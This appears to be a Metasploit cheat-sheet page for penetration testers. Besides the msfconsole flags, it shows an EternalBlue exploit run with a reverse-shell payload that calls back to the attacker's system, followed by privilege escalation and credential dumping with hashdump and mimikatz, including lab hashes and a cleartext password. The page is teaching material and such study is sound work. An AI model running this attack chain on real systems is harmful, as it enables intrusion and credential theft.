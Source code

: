 ```yaml
---
title : "Metasploit"
# pre : ' '
description : "The world's most used penetration testing framework."
date : 2020-03-11T16:59:30+01:00
# hidden : true
# draft : true
weight : 210
# tags : [""]
---
```


---

The world's most used penetration testing framework.

## Installation

Please use [Kali Linux](https://www.kali.org/)

Download newest release from [Github.com](https://github.com/rapid7/metasploit-framework/releases)

## Usage

```plain
msfconsole [options]
```

## Flags

```plain
Usage: msfconsole [options]

Common options:
    -E, --environment ENVIRONMENT    Set Rails environment, defaults to RAIL_ENV environment variable or 'production'

Database options:
    -M, --migration-path DIRECTORY   Specify a directory containing additional DB migrations
    -n, --no-database                Disable database support
    -y, --yaml PATH                  Specify a YAML file containing database settings

Framework options:
    -c FILE                          Load the specified configuration file
    -v, -V, --version                Show version

Module options:
        --defer-module-loads         Defer module loading unless explicitly asked.
    -m, --module-path DIRECTORY      Load an additional module path

Console options:
    -a, --ask                        Ask before exiting Metasploit or accept 'exit -y'
    -H, --history-file FILE          Save command history to the specified file
    -L, --real-readline              Use the system Readline library instead of RbReadline
    -o, --output FILE                Output to the specified file
    -p, --plugin PLUGIN              Load a plugin on startup
    -q, --quiet                      Do not print the banner on startup
    -r, --resource FILE              Execute the specified resource file (- for stdin)
    -x, --execute-command COMMAND    Execute the specified console commands (use ; for multiples)
    -h, --help                       Show this message
```

### Meterpreter examples

### getsystem

```plain
meterpreter > getsystem
...got system via technique 1 (Named Pipe Impersonation (In Memory/Admin)).
```

### hashdump

```plain
meterpreter > hashdump
Administrator:500:aad3b435b51404eeaad3b435b51404ee:97f2592347d8fbe42be381726ff9ea83:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:102277341d6c113a28017200e1dfafe9:::
johndo:1107:aad3b435b51404eeaad3b435b51404ee:97f2592347d8fbe42be381726ff9ea83:::
adm_johndo:1108:aad3b435b51404eeaad3b435b51404ee:97f2592347d8fbe42be381726ff9ea83:::
janedo:1110:aad3b435b51404eeaad3b435b51404ee:f3fe13546c4c0d2db443a0865626203b:::
[...]
```

## Examples

### MS17-010 - Eternalblue

{{%resources fa_icon_class="far fa-file-video" pattern="ms17-010.*(mp4)"/%}}

### Scanner

```plain
msf5 > use auxiliary/scanner/smb/smb_ms17_010
```

### Exploit

```plain
msf5 > use exploit/windows/smb/ms17_010_eternalblue
msf5 > set rhost <target>
msf5 > set payload windows/x64/meterpreter/reverse_tcp
msf5 > set lhost <own-system>
msf5 > run
```

```plain
meterpreter > getsystem
...got system via technique 1 (Named Pipe Impersonation (In Memory/Admin)).

meterpreter > hashdump
Administrator:500:aad3b435b51404eeaad3b435b51404ee:97f2592347d8fbe42be381726ff9ea83:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:102277341d6c113a28017200e1dfafe9:::
johndo:1107:aad3b435b51404eeaad3b435b51404ee:97f2592347d8fbe42be381726ff9ea83:::
adm_johndo:1108:aad3b435b51404eeaad3b435b51404ee:97f2592347d8fbe42be381726ff9ea83:::
janedo:1110:aad3b435b51404eeaad3b435b51404ee:f3fe13546c4c0d2db443a0865626203b:::
[...]

meterpreter > load kiwi
Loading extension kiwi...
mimikatz 2.2.0 20191125 (x64/windows)
Success.

meterpreter > creds_all
[+] Running as SYSTEM
[*] Retrieving all credentials
msv credentials
===============

Username       Domain   NTLM                              SHA1                                      LM
--------       ------   ----                              ----                                      --
Administrator  OFFSEC   97f2592347d8fbe42be381726ff9ea83  d0321e2e4e0712ba7b3f8c1998931312bf6a8b05  12a3cf9e7ff5e329f76ccb47241e3d88
DC2008R2$      OFFSEC   34acde5ae873319558ae6f191e8877bf  186dfbdbae180d8eb4c4406b03250e5194adf6af  

wdigest credentials
===================

Username       Domain   Password
--------       ------   --------
(null)         (null)   (null)
Administrator  OFFSEC   Welkom1234
[...]
```

## URL List

- [Metasploit.com](https://www.metasploit.com/)
- [Offensive-security.com Meterpreter](https://www.offensive-security.com/metasploit-unleashed/meterpreter-basics/)
- [GitHub.com - Metasploit framework](https://github.com/rapid7/metasploit-framework)
